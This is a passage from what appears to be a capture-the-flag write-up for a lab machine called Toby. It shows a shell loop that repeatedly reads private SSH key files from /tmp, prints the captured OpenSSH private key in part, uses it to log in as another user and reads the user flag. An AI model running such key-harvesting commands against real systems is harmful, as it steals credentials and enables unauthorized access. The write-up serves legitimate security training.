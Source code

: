 
    while :;
        do cat /tmp/*/key 2>/dev/null;
        if [ $? -ne 1 ]; then
            break;
        fi
    done



It's a "while true" loop, but if the return code from that `cat` isn't
1, then it breaks the loop.



    jack@mysql:~$ while : ; do cat /tmp/*/key 2>/dev/null; if [ $? -ne 1 ]; then break; fi; done
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEAoklCLF2ADUXkxp6NeQjdMjpoNbc0PUG2wumQ10nf1aIl3pils2QS
    ZYvEGk+eYsJZCnnLZTe2kJ8U073MrpVlmLtmHlDtdKCZfEguzc9nZjKHIICamNsMNhpTLs
    ...[snip]...
    wJ3Z9QCVL74NS/G8YcZiGR8DvWlH65eI9N892+EwcA0pptnV5oEs3ef5YY7+56PxvKe11N
    1WV9Zy6HwXxxoTrXpV2B80Sy/sGFU33QWHbVEHC4SKggdauMbRmHkjCZoDmUqfsNvUhNQb
    0jZ2DP0AFwApsAAAAIcm9vdEBsYWIBAgM=
    -----END OPENSSH PRIVATE KEY-----



### SSH

The key works to SSH to the host as jack:



    oxdf@hacky$ ssh -i ~/keys/toby-jack jack@toby.htb
    Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-81-generic x86_64)
    ...[snip]...
    Last login: Mon Jul 12 16:17:23 2021 from 192.168.0.42
    jack@toby:~$



And I can grab `user.txt`:



    jack@toby:~$ cat user.txt
    94837d9f************************



## Shell as root

### Enumeration

#### Host

There's not a lot on the host for privesc based on typical enumeration.
No `sudo`, unusual SUID binaries.

